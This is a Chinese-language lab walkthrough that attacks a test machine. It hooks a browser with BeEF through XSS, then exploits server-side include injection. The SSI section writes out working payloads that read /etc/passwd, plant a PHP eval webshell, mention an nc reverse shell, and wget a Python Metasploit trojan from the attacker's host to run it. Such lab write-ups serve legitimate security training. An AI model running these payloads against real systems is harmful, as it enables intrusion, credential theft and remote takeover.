# XSS(Cross-site Scripting)漏洞

## 信息收集

靶机IP：192.168.1.11

扫描靶机只开放了80端口

浏览器登录查看



## 漏洞扫描

先扫描了目录，并没有什么有用的信息

进行一下漏洞扫描



直接扫出来了一个XSS漏洞，针对这个漏洞进行攻击，可以利用这个漏洞重定向到一个风险链接

## beff-xss工具

在kali中先开启beff-xss



生成一个Hook(Payload)：

还自动打开beff界面，使用默认账号和修改的密码登录

将Payload输入网站中的输入框并提交表单





可以看到靶机上线了，在Redirect Browser中可以重定向到我们想要它跳转的网页，成功挟持网站，达成目的

# SSI

## SSI概述

### 基本介绍

SSI(Server Side Includes 服务端包含)是一种用于网页开发的服务端技术，允许网页开发者在网页中插入SSI指令来动态地生成网页内容，从而简化网页开发和维护工作。

### 语法格式

SHTML是一种拓展名为.shtml的网页文件格式，结合了HTML和SSL功能的文件类型。

SHTML文件中SSI指令基本格式如下：

> <!--#command param="value" -->

### 常见指令

1. config命令：主要用于配置和设置SSI的参数和选项  如：

   <!--#config errordocument="404 /errors/notfound.html" -->

2. include命令：用于将其他文件的内容插入当前网页中，如：

   <!--#include file="header.html" -->

3. echo命令：用于显示指定变量的值或其他内容

   <!--#echo var="SERVER_NAME" -->

4. fsize命令：用于显示指定文件的大小

   <!--#fsize file="image.jpg" -->

5. flastmod命令：用于显示指定文件的最后修改时间

   <!--#flastmod file="index.html" -->

6. **exec命令：用于在服务器上执行指定命令并将结果输出到网页**

   <!--#exec cmd="ls -l" -->

7. for命令：用于定义一个变量并在指定范围内循环执行相应的代码块

   <!--#for var="variable" start="start" end="end" -->
       <!--#echo var="variable" -->
   <!--#endfor -->

8. if命令：用于根据条件判断来选择性地回显不同的内容

   <!--#if expr="expression" -->
       <!--#echo var="variable" -->
   <!--#else -->
       <!--#echo var="other_variable" -->
   <!--#endif -->

## 信息收集

同一个靶机：192.168.1.11

扫描网站目录





我们可以看到一些有用信息：

​	/spukcab/     index.shtml   /ssi

分别访问看看



发现了两个.bak文件，我们将其下载下来看看

index.bak是index页面的配置文件，因此我们主要看看oldconfig.bak会不会有什么有用信息



得到了站点根目录



ssi页面且回显了攻击机IP地址



shtml文件，说明站点支持SSI指令且存在SSI漏洞

能通过输入命令爆出我们需要的信息或者注入我们可以利用的信息

## 执行命令

因此，我们在首页的输入框中尝试输入命令：



> <!--#EXEC cmd="cat /etc/passwd" -->  严格遵循SSI指令格式，且尝试大小写绕过



成功爆出用户信息

## webshell

直接通过SSI漏洞写入一句话木马文件实现getshell目的

> 构造Payload ：<!--#EXEC cmd="echo '<?php eval(\$_POST[c]);?>' > a.php"-->

然后我们再查看一下目录：



可以看到我们上传的webshell木马

直接使用蚁剑连接



成功获得服务器端的shell权限

## 反弹shell

蚁剑打开虚拟终端查看nc是否存在-e参数

> 因为要执行 nc IP地址 9999 -e /bin/bash命令达成监听



-e参数不存在，因此这条路行不通

## MSF木马

生成python文件木马



用msfconsole开启监听



使用python建立一个简易的http服务托管shell.py文件





构造SSI语句从简易的http服务中下载木马文件执行即可

> 构造payload=> <!--#EXEC cmd="wget http://192.168.1.13:1234/shell.py"-->



可以看到我们成功将木马文件上传到根目录下

运行该木马文件：

<!--#EXEC cmd="python shell.py"-->

收到请求记录



获得meterpreter操作终端



进入shell命令行



成功进入服务器

